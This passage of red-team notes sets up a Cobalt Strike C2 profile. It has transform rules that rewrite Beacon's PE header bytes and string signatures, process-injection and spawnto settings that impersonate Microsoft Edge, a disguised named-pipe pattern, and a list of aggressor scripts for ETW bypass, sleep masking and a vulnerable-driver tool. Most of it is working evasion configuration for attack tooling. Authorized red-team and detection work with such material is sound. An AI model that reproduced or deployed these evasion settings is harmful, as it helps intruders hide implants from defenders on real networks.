 ```
        set magic_mz_x64 "AYAQ";
		
        transform-x64 {
                prepend "\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
                strrep "(admin)" "(adm1n)";
                strrep "%s as %s\\%s: %d" "%s - %s\\%s: %d";
                strrep "\x25\xff\xff\xff\x00\x3D\x41\x41\x41\x00" "\xB8\x41\x41\x41\x00\x3D\x41\x41\x41\x00";
                # strrep "\x4D\x5A\x41\x52\x55\x48\x89\xE5\x48\x81\xEC\x20\x00\x00\x00\x48\x8D\x1D\xEA\xFF\xFF\xFF\x48\x89\xDF\x48\x81\xC3\xD4\x88\x01\x00\xFF\xD3\x41\xB8\xF0\xB5\xA2\x56\x68\x04\x00\x00\x00\x5A\x48\x89\xF9\xFF\xD0" "\x4D\x5A\x48\x8D\x1D\xF8\xFF\xFF\xFF\x41\x52\x48\x83\xEC\x28\x48\x89\xDF\x48\x81\xC3\x52\xB7\x00\x00\x48\x81\xC3\x52\xB7\x00\x00\xFF\xD3\x48\xC7\xC2\x04\x00\x00\x00\x48\x89\xF9\xFF\xD0";
        }
}

process-inject {
        set startrwx "false";
        set userwx "false";
        set bof_reuse_memory "false";
        set allocator "NtMapViewOfSection";
}

post-ex {
        # Fork and Run Memory Allocations
        set obfuscate "true";
        set cleanup "true";
		
        # SpawnTo
        set spawnto_x86 "c:\\windows\\syswow64\\cmd.exe";
        set spawnto_x64 "C:\\program files (x86)\\microsoft\\edge\\application\\msedge.exe";
		
        # SMB Named Pipes Names
        # include pound (#) for random hex digit
        set pipename "TSVCPIPE-########-####-####-####-############";
}
```
`cd ~/cobaltstrike`
check for errors: `./c2lint c2-profiles/custom/custom.profile`
#### Aggressor Scripts
`C:\Tools\cobaltstrike\process-inject\processinject.cna`
powerpick and execute-assembly etw bypass
`C:\Tools\InlineExecute-Assembly\inlineExecute-Assembly\inlineExecute-Assembly.cna`
`C:\Tools\RedOctober\RedOctober.cna`
`C:\Tools\cobaltstrike\gdrv\gdrv.cna`
`C:\Tools\cobaltstrike\ppenum\ppenum.cna`
`C:\Tools\cobaltstrike\sleepmask\sleepmask.cna`
#### Payload Guardrails
when creating a listener, to the right of Guardrails, click `...`
**Examples**
- IP Address: `10.10.*.*`
- User Name (case sensitive): `svc_*`
- Server Name (case sensitive)
- Domain (case sensitive): `*.acme.corp`
## Post-Exploitation
